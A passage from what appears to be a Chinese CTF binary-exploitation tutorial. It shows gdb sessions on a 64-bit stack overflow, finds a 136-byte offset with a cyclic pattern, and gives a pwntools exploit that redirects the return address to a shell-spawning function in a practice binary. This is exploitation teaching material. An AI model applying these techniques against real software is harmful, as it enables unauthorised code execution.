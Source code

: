 然后运行gdb ./level3后输入这串字符串造成程序崩溃。

```
(gdb) run < payload
Starting program: /home/mzheng/CTF/level3 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005b3 in vulnerable_function ()
```

奇怪的事情发生了，PC指针并没有指向类似于0x41414141那样地址，而是停在了vulnerable_function()函数中。原因就是之前提到过的程序使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。但是，虽然PC不能跳转到那个地址，我们依然可以通过栈来计算出溢出点。因为ret相当于“pop rip”指令，所以我们只要看一下栈顶的数值就能知道PC跳转的地址了。

```
(gdb) x/gx $rsp       // 查看内存，gx代表数值用64位16进制显示
0x7fffffffe188: 0x3765413665413565

$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
136
```

可以看到溢出点为136字节。我们再构造一次payload，并且跳转到一个小于0x00007fffffffffff的地址，看看这次能否控制pc的指针。

```
python -c 'print "A"*136+"ABCDEF\x00\x00"' > payload

(gdb) run < payload
Starting program: /home/mzheng/CTF/level1 < payload
Hello, World

Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```

**Exploit**

```
#!/usr/bin/env python
from pwn import *
elf = ELF('level3')
p = process('./level3')
#p = remote('127.0.0.1',10001)
callsystem = 0x0000000000400584
payload = "A"*136 + p64(callsystem)
p.send(payload)
p.interactive()
```



### ret2reg

示例程序来自重庆邮电大学举办的cctf2015中pwn的第一题，见附件`cctf2015_pwn1.rar`

**分析调试**
